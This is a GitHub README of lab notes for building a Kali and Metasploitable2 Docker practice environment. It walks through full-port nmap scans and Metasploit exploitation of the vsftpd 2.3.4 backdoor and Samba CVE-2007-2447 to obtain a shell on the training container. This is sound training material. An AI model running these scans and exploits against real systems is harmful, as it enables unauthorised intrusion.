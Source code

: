 # Security Testing Environment

## links

 - Network Chuck - Setup Kali on WSL <https://www.youtube.com/watch?v=dgdOILL1184>
 - Kali in Docker - <https://www.kali.org/docs/containers/using-kali-docker-images/>
 - kex offical - <https://www.kali.org/docs/wsl/win-kex/>
 - 

## Setup Metasploitable Container using Docker

Install/setup zsh

```bash
apt install zsh zsh-syntax-highlighting zsh-autosuggestions
```


Docker Containers for Attacking

```bash
docker run -it --name metasploitable \
--hostname metasploitable \
-p 513:513 \
-p 514:514 \
-p 8009:8009 \
-p 6697:6697 \
-p 3306:3306 \
-p 1099:1099 \
-p 6667:6667 \
-p 139:139 \
-p 5900:5900 \
-p 111:111 \
-p 6000:6000 \
-p 3632:3632 \
-p 80:80 \
-p 43153:43153 \
-p 8787:8787 \
-p 8180:8180 \
-p 1524:1524 \
-p 21:21 \
-p 2222:22 \
-p 23:23 \
-p 5432:5432 \
-p 25:25 \
-p 445:445 \
-p 512:512 \
tleemcjr/metasploitable2 bash

# once started, run:
services.sh
```

## Setup Workstation

1. Instll Kali Linux using WSL
2. update/upgrade 
3. Install kali-win-kex

```bash
sudo apt update && \
sudo apt upgrade -y \
sudo apt install kali-win-kex

# launch gui environment
kex
```

## Install Metasploit

```bash
# Recommended way... didnt work
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall

# this route did work...
sudo apt-get install metasploit-framework postgresql
```

## Running Metasploit Console

```bash
msfconsole

# yes to setup new database first time
# no to creating web server - not required
```

### Scanning with Metasploit

nmap can be used to scan the target and obtain more information, often called reconnaissance. This can be done using nmap - make sure the package is installed.

```bash

# install the package at the bash prompt
sudo apt install nmap -y

# run this command at the msf console
db_nmap -v -T4 -PA -sV --version-all --osscan-guess -A -sS -Pn -p 1-65535 <ip address>
```

When the scan is done, you can run the "services" command to get the output of your scan. Here is a sample output.
![services](./images/services.png)

### vsftpd Exploit

This service is running on the metasploitable container and can be exploited using metasploit.

```bash
# search metasploit for vsftpd to see if it has anything it can use to exploit this service
search vsftpd

# load up the exploit in the console
use exploit/unix/ftp/vsftpd_234_backdoor

# The command prompt will change to:
# msf6 exploit(unix/ftp/vsftpd_234_backdoor) >

# use the info command to get more information on the attack
info

# Set the host and port
set RHOST <ipaddress>
set RPORT <port>

# run the exploit
run
```
Here is the output from the search:

![vsftpd](./images/vsftpd.png)

Here is the sample info for the exploit:

![vsftpdinfo](./images/vsftpdinfo.png)

### Samba Exploit

This is a quick review of Samba exploits. This service has more exploits available, which may require some additional work...

```bash
# search the metasploit database for exploits related to samba
search samba

# Rescan the service to get more information
nmap -PA -A -sV -sT -T4 --version-all -v -p <port num> <ip addr>
```

Here are the search results for Samba
![samba](./images/samba.png)

The second targeted nmap scan will give you more information about the service and the version running. This can be used to do more research about potential issues. Do some google searching on the exploit and find the CVE. The CVE can also be searched inside metasploit to find a targeted attack against that service.

```bash
# search for the CVE
search cve:2007-2447
```

![sambasearchinfo](./images/sambasearchinfo.png)

Run the exploit and see if you can get a shell on the remote machine.

